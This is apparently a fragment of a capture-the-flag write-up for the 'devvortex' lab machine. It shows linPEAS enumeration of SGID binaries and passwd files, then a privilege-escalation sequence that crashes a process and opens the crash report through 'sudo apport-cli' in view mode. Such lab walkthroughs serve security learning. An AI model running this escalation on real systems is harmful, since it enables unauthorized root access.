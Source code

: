 ```bash
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/RSA/Formats/Keys/PSS.php
/var/www/dev.devvortex.htb/libraries/vendor/web-token/jwt-core/Util/ECKey.php


╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd


╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwxr-sr-x 1 root shadow 43K Feb  2  2023 /usr/sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 43K Feb  2  2023 /usr/sbin/unix_chkpwd
-rwxr-sr-x 1 root utmp 15K Sep 30  2019 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwxr-sr-x 1 root tty 35K May 30 15:42 /usr/bin/wall
-rwxr-sr-x 1 root ssh 343K Aug  4 22:02 /usr/bin/ssh-agent
-rwxr-sr-x 1 root mail 15K Aug 26  2019 /usr/bin/mlock
-rwxr-sr-x 1 root shadow 31K Nov 29  2022 /usr/bin/expiry
-rwxr-sr-x 1 root tty 15K Mar 30  2020 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 83K Nov 29  2022 /usr/bin/chage
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 1 root crontab 43K Feb 13  2020 /usr/bin/crontab







```



```bash
killall -SEGV sleep
 sleep: no process found

killall -SIGSEGV sleep
 sleep: no process found
 
sleep 13 & killall -SIGSEGV sleep
[1] 71020

ls /var/crash
_dev_shm_exploit_decoy.1000.crash  _usr_bin_sleep.1000.crash  _usr_bin_sleep.1000.upload
[1]+  Segmentation fault      (core dumped) sleep 13

sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (30.1 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
```